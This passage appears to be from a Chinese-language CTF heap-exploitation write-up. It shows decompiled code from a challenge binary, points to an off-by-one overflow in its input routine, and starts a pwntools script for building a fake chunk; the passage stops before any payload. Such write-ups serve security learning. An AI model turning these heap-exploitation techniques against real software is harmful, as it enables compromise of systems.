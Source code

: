 ```text
        break;
      case 5u:
        exit(0);
      default:
        puts("Please input current choice.");
        break;
    }
  }
}
```

如下get_input_content里面有个off by one 的漏洞

```text
unsigned __int64 __fastcall sub_C39(__int64 a1, int a2)
{
  unsigned __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (int)i > a2 )
      break;
    if ( !read(0, (void *)((int)i + a1), 1uLL) )
      exit(0);
    if ( *(_BYTE *)((int)i + a1) == 10 )
    {
      result = (int)i + a1;
      *(_BYTE *)result = 0;
      return result;
    }
  }
  return result;
}
```

## Second step

在第一步我们对程序的漏洞点寻找完毕

现在我们要开始第二步去利用off by one创建fake chunk了，先上交互函数

```text
from pwn import *
context(log_level='debug')
r=process('./vn')
#elf=ELF('./vn')
#r=remote('node3.buuoj.cn',28465)
libc=ELF('16.so')
def add(size,content):
        r.recvuntil("choice: ")
        r.sendline("1")
        r.sendlineafter("size?",str(size))
        r.sendlineafter("content:",content)
def edit(idx,content):
        r.recvuntil("choice: ")
        r.sendline("2")
        r.sendlineafter("idx?",str(idx))
        r.sendlineafter("content:",content)
def dump(idx):
        r.recvuntil("choice: ")
        r.sendline("3")
        r.sendlineafter("idx?",str(idx))
def free(idx):
```